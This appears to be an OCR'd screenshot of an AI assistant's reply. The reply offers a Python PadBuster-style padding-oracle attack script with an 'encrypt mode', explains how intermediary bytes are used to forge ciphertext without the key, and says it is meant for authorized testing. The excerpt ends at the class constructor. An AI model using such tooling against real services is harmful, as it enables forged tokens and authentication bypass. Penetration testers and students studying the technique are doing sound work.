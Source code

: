 Thought for 13 seconds
Below is a Python extension to our PadBuster-like script that implements an “encrypt mode” similar to the original Perl script’s scenario. The idea is:

You have plaintext that you want to encrypt.
You already have a “sample cipher block” or can forcibly create one (which might be the IV or a known ciphertext block).
By reversing the padding oracle logic, you can derive the intermediary bytes for the “sample block,” then XOR those bytes with your plaintext block to forge a valid ciphertext block.
This allows an attacker (with a padding oracle vulnerability) to encrypt arbitrary data without ever knowing the key. In the original Perl script, this logic appears in the elsif ($plainTextInput) portion.

Disclaimer: This is for authorized testing of your own systems, or academic demonstration only. Misuse can be illegal.

1) Example: Extended Python Script
Below is a single Python script that supports both decrypt mode (like in our earlier code) and the new encrypt mode**. Focus on the new encrypt_mode method at the bottom.

python
Copy code
#!/usr/bin/env python3
"""
PadBuster-like Python script with 'encrypt mode' (forging ciphertext)
---------------------------------------------------------------------
This script demonstrates how to:
  1. Derive the "intermediary" bytes for an existing ciphertext block (via padding oracle).
  2. Use those intermediary bytes to XOR with your custom plaintext block, yielding a new valid block.

Use responsibly, with authorization. 
"""

import sys
import math
import argparse
import requests
import urllib.parse
import base64
from collections import defaultdict

class PadBuster:
    def __init__(
        self,
        url: str,
        encrypted_sample: str,
        block_size: int,
        error_string: str = None,
        encoding_format: int = 0,
        verbose: bool = False,
        log_files: bool = False,
        no_iv: bool = False,
        no_encode_option: bool = False,
    ):
        self.url = url
        self.sample = encrypted_sample
        self.block_size = block_size
        self.error_string = error_string
        self.encoding_format = encoding_format
        self.verbose = verbose
        self.log_files = log_files
        self.no_iv = no_iv
        self.no_encode_option = no_encode_option

